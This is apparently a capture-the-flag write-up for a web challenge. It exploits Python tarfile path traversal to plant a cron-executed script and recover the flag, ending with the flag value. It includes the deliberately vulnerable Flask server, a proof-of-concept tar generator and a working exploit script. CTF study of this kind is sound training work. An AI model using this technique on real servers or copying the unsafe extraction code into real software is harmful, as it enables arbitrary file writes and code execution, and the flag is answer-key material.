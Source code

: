 # File Sharing Portal

Category: WEB

Points: 478

Solves: 119

>Welcome to the file sharing portal! We only support tar files!

### TLDR

Get arbitary file upload via python `tarfile` module. Abuse a cron job that runs all files in a folder to write a bash script that copies the flag via `*.txt` into a folder `/uploads/a`. Access folder through website `/view` endpoint. Get flag filename and access through `/read` endpoint. 

### Solution

Let's first look through our given files and what we can do:

Server:
```py
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import tarfile
from hashlib import sha256
import os
app = Flask(__name__)

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        file = request.files['file']
        if file.filename[-4:] != '.tar':
            return render_template_string("<p> We only support tar files as of right now!</p>")
        name = sha256(os.urandom(16)).digest().hex()
        os.makedirs(f"./uploads/{name}", exist_ok=True)
        file.save(f"./uploads/{name}/{name}.tar")
        try:
            tar_file = tarfile.TarFile(f'./uploads/{name}/{name}.tar')
            tar_file.extractall(path=f'./uploads/{name}/')
            return render_template_string(f"<p>Tar file extracted! View <a href='/view/{name}'>here</a>")
        except:
            return render_template_string("<p>Failed to extract file!</p>")

@app.route('/view/<name>')
def view(name):
    if not all([i in "abcdef1234567890" for i in name]):
        return render_template_string("<p>Error!</p>")
        #print(os.popen(f'ls ./uploads/{name}').read())
            #print(name)
    files = os.listdir(f"./uploads/{name}")
    out = '<h1>Files</h1><br>'
    files.remove(f'{name}.tar')  # Remove the tar file from the list
    for i in files:
        out += f'<a href="/read/{name}/{i}">{i}</a>'
       # except:
    return render_template_string(out)

@app.route('/read/<name>/<file>')
def read(name,file):
    if (not all([i in "abcdef1234567890" for i in name])):
        return render_template_string("<p>Error!</p>")
    if ((".." in name) or (".." in file)) or (("/" in file) or "/" in name):
        return render_template_string("<p>Error!</p>")
    f = open(f'./uploads/{name}/{file}')
    data = f.read()
    f.close()
    return data

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

Docker:

```
FROM python:3.9-slim
RUN apt-get update && \
    apt-get install -y cron && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/*
WORKDIR /app
COPY requirements.txt server.py /app/
COPY templates/ /app/templates/
COPY uploads/ /app/uploads/
COPY REDACTED.txt /app/
# The flag file is redacted on purpose
RUN pip install --no-cache-dir -r requirements.txt
# Add the cron job to the crontab
RUN mkdir /etc/cron.custom
RUN echo "*/5 * * * * root rm -rf /app/uploads/*" > /etc/cron.custom/cleanup-cron
RUN echo "* * * * * root cd / && run-parts --report /etc/cron.custom" | tee -a /etc/crontab
# Give execution rights on the cron job
RUN chmod +x /etc/cron.custom/cleanup-cron
RUN crontab /etc/cron.custom/cleanup-cron
RUN crontab /etc/crontab
CMD ["sh", "-c", "cron && python server.py"]
```

Looks like we have a few endpoints:
1. Upload a tar file that will be extracted and stored in a random id folder in `./uploads`
2. View all files within a folder `./uploads/{random id}`
3. View content of file within a folder `./uploads/{random id}/{file name}`

There are a few restrictions that make this a bit annoying, most imporantly, our folder name can only consist of "abcdef1234567890" and our file can't contain any `..` or `/` so we won't be able to do LFI :< Further, we don't even know the file name of the flag as it's redacted in the docker file.

After thinking about LFI for a while, I decided to check out the tarfile library since I've never used it before, and see how it extracts files the only part we can interact with. After reading the [documentation](https://docs.python.org/3/library/tarfile.html), Jackpot, a vulnerability:

![Tarfile Vulnerability](/images/FileSharingPortalTarfileVuln.png)

Looks like using `extractall` like how the server is doing could lead to files being extracted outside the current directory, as a proof of concept I wrote a python script to help generate this bad tarfiles:

script:

```py
import tarfile
import os

# temp file
with open("temp.txt", 'w') as f:
    f.write("not important")

# create tar file and add 2 files to it
with tarfile.open('proofOfConcept.tar', 'w') as tar:
    tar.add('temp.txt', arcname='thisShouldShowUp') # specifies filename on extract
    tar.add('temp.txt', arcname='../thisShouldNotShowUp') #  ../ moves it out of the directory
```

POC:

![POC](/images/FileSharingPortalTarfilePOC.png)


BAM!!! very cool, we can now upload arbitary files to the servers file system (and even overwrite files if it shares the same name). But, from here what can we do, we still don't know the filename of flag nor can we perform any RCE to get the flag. After thinking through a few incorrect ideas (Overwritting python modules doesn't work since the server is only ran once, and everything will be cached, same thing with overwriting the server file, and most processes, screw caching fr) I realized that there was one way to get my file to run. If we look carefully back at the dockerfile we notice that there are some interesting cron jobs that are being performed:

```
# Add the cron job to the crontab
RUN mkdir /etc/cron.custom
RUN echo "*/5 * * * * root rm -rf /app/uploads/*" > /etc/cron.custom/cleanup-cron
RUN echo "* * * * * root cd / && run-parts --report /etc/cron.custom" | tee -a /etc/crontab
# Give execution rights on the cron job
RUN chmod +x /etc/cron.custom/cleanup-cron
RUN crontab /etc/cron.custom/cleanup-cron
RUN crontab /etc/crontab
CMD ["sh", "-c", "cron && python server.py"]
```

These cron jobs are daemons that will be performed in the background on a schedule while the main thread runs server.py. Let's see what the docker does and if we can get them to run our code. 
1. We first create a directory `/cron.custom` for custom cron processes in `/etc` 
2. Add a `cleanup-cron` file that defines a cron job where it removes all files from the `/uploads` folder (to save storage if we upload a lot of files) this job is then ran every 5 minutes.
3. Put a cron job (runs every minute) that uses `run-parts` to run all the files in `/etc/cron.custom` into current cron process stored in `crontab`
4. Give execution rights for cron jobs
5. Runs all the cron jobs made earlier

At first I tried to redefine builtin binaries like `rm` and `run-parts` with no luck (I think you can do it but I messed up something), Then I realized that I can add my own file (or overwrite cleanup-cron) in `/cron.custom`. The `run-parts` cron job would then execute my file every minute. But what commands should I run. After more trial and error, I ended up creating a folder `a` in uploads where I could move `*.txt` into. Then from the website I could go to `/view/a` and `REDACTED.txt` would be there. Now I just needed to code it up (with a lot of debugging in a local docker container):

```py
import tarfile
import os

os.makedirs('exploittar', exist_ok=True)
# create file to be run
with open('exploittar/temp.txt', 'w') as f:
    # shebang needed for run-parts (debugged in local docker)
    # copies all txt files from app into uploads/a folder
    f.write("#!/bin/bash\ncp /app/*.txt /app/uploads/a/.\n")

# also give the file executable writes so it can be run (debugged in local docker)
# today I learned that files preserve permission writes after being transfered and copied around
os.system("chmod +x exploittar/temp.txt")

# create exploit tar file
with tarfile.open('exploittar.tar', 'w') as tar:
    # adds exploit file to be put in cron.custom (rel path found in local docker)
    tar.add('exploittar/temp.txt', arcname='../../../etc/cron.custom/exploit')
    # creates folder 'a' inside uploads and file a.tar to make server happy
    # server attempts to remove *name*.tar from folder *name* before displaying
    # only arcname matters here
    tar.add('exploittar/temp.txt', arcname='../a/a.tar')

# Clean up temporary files
os.remove('exploittar/temp.txt')
os.rmdir('exploittar')
```

We can now upload this to the website and wait for a minute to pass:

![Upload](/images/FileSharingPortalExploit.png)

After 1 min:

![After 1 Minute](/images/FileSharingPortalExploitAfter1min.png)

NICE! It works, we have got the flag file:

![Flag](/images/FileSharingPortalFlag.png)

Definetely one of the more enjoyable/interesting challenges \:D

\*there are also a lot of unintended solutions such as ssti through filename or symlinks.
### Flag

```n00bz{n3v3r_7rus71ng_t4r_4g41n!_0894282b7aae}```